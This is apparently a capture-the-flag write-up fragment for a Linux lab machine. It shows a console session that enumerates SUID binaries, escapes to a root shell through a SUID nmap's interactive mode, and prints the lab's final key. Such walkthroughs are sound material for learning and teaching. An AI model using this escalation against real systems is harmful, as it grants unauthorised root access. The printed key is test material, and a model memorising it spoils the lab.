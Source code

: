 # root

```console
robot@linux:~$ sudo -l
sudo -l
[sudo] password for robot: abcdefghijklmnopqrstuvwxyz

Sorry, user robot may not run sudo on linux.
robot@linux:~$ id
id
uid=1002(robot) gid=1002(robot) groups=1002(robot)
robot@linux:~$ find / -perm -4000 -exec ls -ldb {} \; 2> /dev/null
find / -perm -4000 -exec ls -ldb {} \; 2> /dev/null
-rwsr-xr-x 1 root root 44168 May  7  2014 /bin/ping
-rwsr-xr-x 1 root root 69120 Feb 12  2015 /bin/umount
-rwsr-xr-x 1 root root 94792 Feb 12  2015 /bin/mount
-rwsr-xr-x 1 root root 44680 May  7  2014 /bin/ping6
-rwsr-xr-x 1 root root 36936 Feb 17  2014 /bin/su
-rwsr-xr-x 1 root root 47032 Feb 17  2014 /usr/bin/passwd
-rwsr-xr-x 1 root root 32464 Feb 17  2014 /usr/bin/newgrp
-rwsr-xr-x 1 root root 41336 Feb 17  2014 /usr/bin/chsh
-rwsr-xr-x 1 root root 46424 Feb 17  2014 /usr/bin/chfn
-rwsr-xr-x 1 root root 68152 Feb 17  2014 /usr/bin/gpasswd
-rwsr-xr-x 1 root root 155008 Mar 12  2015 /usr/bin/sudo
-rwsr-xr-x 1 root root 504736 Nov 13  2015 /usr/local/bin/nmap
-rwsr-xr-x 1 root root 440416 May 12  2014 /usr/lib/openssh/ssh-keysign
-rwsr-xr-x 1 root root 10240 Feb 25  2014 /usr/lib/eject/dmcrypt-get-device
-r-sr-xr-x 1 root root 9532 Nov 13  2015 /usr/lib/vmware-tools/bin32/vmware-user-suid-wrapper
-r-sr-xr-x 1 root root 14320 Nov 13  2015 /usr/lib/vmware-tools/bin64/vmware-user-suid-wrapper
-rwsr-xr-x 1 root root 10344 Feb 25  2015 /usr/lib/pt_chown
```
so the hint on the was ```nmap```. At the same time, /usr/local/bin/nmap is SUID, lets go for it . Read more about nmap privesc [here](https://pentestlab.blog/category/privilege-escalation/) and [here](https://gtfobins.github.io/gtfobins/nmap/)



```console
robot@linux:~$ nmap --interactive
nmap --interactive

Starting nmap V. 3.81 ( http://www.insecure.org/nmap/ )
Welcome to Interactive Mode -- press h <enter> for help
nmap> !sh
!sh
# whoami
whoami
root
# cd
cd
# ls
ls
key-2-of-3.txt  password.raw-md5
# cd /root
cd /root
# ls
ls
firstboot_done  key-3-of-3.txt
# file firstboot\_done
file firstboot\_done
firstboot_done: empty 
# cat key-3-of-3.txt
cat key-3-of-3.txt
04787ddef27c3dee1ee161b21670b4e4
```
